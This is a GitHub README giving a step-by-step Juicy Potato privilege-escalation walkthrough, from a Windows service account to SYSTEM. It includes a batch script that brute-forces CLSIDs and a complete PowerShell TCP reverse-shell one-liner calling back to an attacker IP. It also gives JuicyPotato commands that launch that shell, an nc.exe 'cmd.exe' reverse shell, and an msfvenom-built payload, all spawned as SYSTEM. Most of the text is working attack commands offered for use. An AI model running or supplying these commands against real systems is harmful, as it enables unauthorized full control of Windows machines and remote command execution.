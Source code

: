 # Juicy-Potato
Juicy Potato is a Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

# Exploitation
First Check that you've SeImpersonatePrivilege Enabled

whoami /priv

![OnPaste 20220606-195812](https://user-images.githubusercontent.com/106917304/172181384-a233e095-62a2-4088-90f9-40312107bdbc.png)



With systeminfo we can see the target OS name

![OnPaste 20220606-185951](https://user-images.githubusercontent.com/106917304/172170491-77cc6851-f294-4156-9076-0a917bd08776.png)


Traget Arch

![OnPaste 20220606-190251](https://user-images.githubusercontent.com/106917304/172170739-bddac064-d18f-4f70-95fe-8ed3c94c7e7a.png)


Now we gonna get CLSID for our target machine

[Resource] (https://github.com/ohpe/juicy-potato/tree/master/CLSID) 

Here my traget is Windows 7 Professional i can go for Windows 7 Enterprise, copy all the CLSID from CLSID.list file.

Open your favourite editor and paste all the CLSID and name the file CLSID.list.

Our target machine is x32-bit arch. Grab the Juicy Potato binary for 32-bit os.

[Resource] (https://github.com/k4sth4/Juicy-Potato) 

We gonna make a test.bat file which gonna help you to execute the jp32.exe and find you a valid CLSID for attack.

Content of our test.bat file

```markdown

@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\\Users\\Bob\Desktop\\CLSID.list) DO (
echo %%i !port!
C:\\Users\\Bob\\Desktop\\jp32.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)

```
### Changes to Make
Note: C:\\Users\\Bob\\Desktop\\CLSID.list and C:\\Users\\Bob\\Desktop\\jp32.exe are the place where we gonna upload our CLSID.list file and jp32.exe (juicy potato 32-bit).


## Using Powershell
Next we gonna create shell.bat file for our reverse ahell.

```markdown

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.x.x',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

### Changes to make
NOTE: '10.10.x.x',1234 is the attacker IP and listening port for our reverse shell.



## Using msfvenom or nc.exe binary
generate a shell.exe binary using msfvenom.


Now upload jp32.exe, test.bat, CLSID.list, shell.bat or shell.exe / nc.exe to the user Desktop (same path that we used in our test.bat).

![OnPaste 20220606-192729](https://user-images.githubusercontent.com/106917304/172175237-70da4fdd-2e92-447e-a23d-622692e8b732.png)


Now execute the test.bat
        
        powershell Start-Process c:\Users\Bob\Desktop\test.bat  (if not in powershell)                                                           
        Start-Process c:\Users\Bob\Desktop\test.bat             (if in powershell) 
        
 Now wait for 5-mins you will see result.log file is created type the file you gonna see bunch of CLSID.
 
 ![OnPaste 20220606-193222](https://user-images.githubusercontent.com/106917304/172176176-c227b6c8-dd0b-4d31-9f75-f04a4dabb570.png)

We're insterested in SYSTEM CLSID. Grab one of SYSTEM CLSID.

Now we've found valid CLSID for SYSTEM we can use that CLSID and get system shell.

# Reverse Shell

## Using Powershell shell.bat

```markdown

c:\\Users\\Bob\\Desktop\\JuicyPotato.exe -l 1234 -p c:\\Users\\Bob\\Desktop\\shell.bat -t * -c {c980e4c2-c178-4572-935d-a8a429884806} 

```

## Using nc.exe

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\nc.exe -e cmd.exe 192.168.x.x 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}

```

## Using shell.exe 

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

```

![OnPaste 20220606-195312](https://user-images.githubusercontent.com/106917304/172180304-91e48267-0a99-43cd-bd33-0f13c36c90d9.png)

## Get Reverse Shell as SYSTEM

![OnPaste 20220606-195431](https://user-images.githubusercontent.com/106917304/172180726-4bdb1672-1a35-4e06-8458-a873b49c6926.png)


